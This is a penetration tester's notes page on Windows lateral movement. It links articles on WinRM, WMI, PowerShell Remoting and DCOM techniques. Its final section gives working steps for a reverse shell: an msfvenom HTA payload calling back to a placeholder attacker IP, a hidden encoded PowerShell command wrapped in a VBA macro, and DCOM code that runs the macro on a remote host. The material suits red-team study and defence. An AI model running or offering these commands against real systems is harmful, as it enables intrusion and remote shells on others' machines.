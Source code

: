 # Lateral Movement

## Tools

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

## Articles

* [https://bohops.com/2020/05/12/ws-management-com-another-approach-for-winrm-lateral-movement/](https://bohops.com/2020/05/12/ws-management-com-another-approach-for-winrm-lateral-movement/)

## Kerberos

[Link](active-directory.md#kerberos)

## Windows Management Instrumentation (WMI)

* [https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)
* [https://www.trustedsec.com/blog/no\_psexec\_needed/](https://www.trustedsec.com/blog/no\_psexec\_needed/)

## Powershell Remoting

* [https://www.netspi.com/blog/technical/network-penetration-testing/powershell-remoting-cheatsheet/](https://www.netspi.com/blog/technical/network-penetration-testing/powershell-remoting-cheatsheet/)
* [https://adamtheautomator.com/psremoting/](https://adamtheautomator.com/psremoting/)
* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands)
* [http://www.harmj0y.net/blog/empire/expanding-your-empire/](http://www.harmj0y.net/blog/empire/expanding-your-empire/)

## Distributed Component Object Model (DCOM)

* [https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-anddotnettojscript/](https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-anddotnettojscript/)
* [https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/](https://attactics.org/2018/02/03/lateral-movement-with-powerpoint-and-dcom/)
* [https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)

### Using Excel Macros

{% hint style="info" %}
Requires:

* Office installed on both source and target hosts
* Local admin privileges
{% endhint %}

Create a HTA reverse shell using msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=8080 -f hta-psh -o rshell.hta
```

Extract the encoded Powershell command:

```
powershell.exe -nop -w hidden -e aQBmACg...
```

Convert it to VBA format:

```
Sub mymacro()
    Dim Str As String
    Str = "powershell.exe -nop -w hidden -e aQBm..."
    Str = Str + "..."
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Call the macro on target host using Excel through DCOM:

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "target_ip"))
$LocalPath = "C:\excel.xls"
$RemotePath = "\\target_ip\c$\excel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\target_ip\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\excel.xls")
$com.Run("mymacro")
```
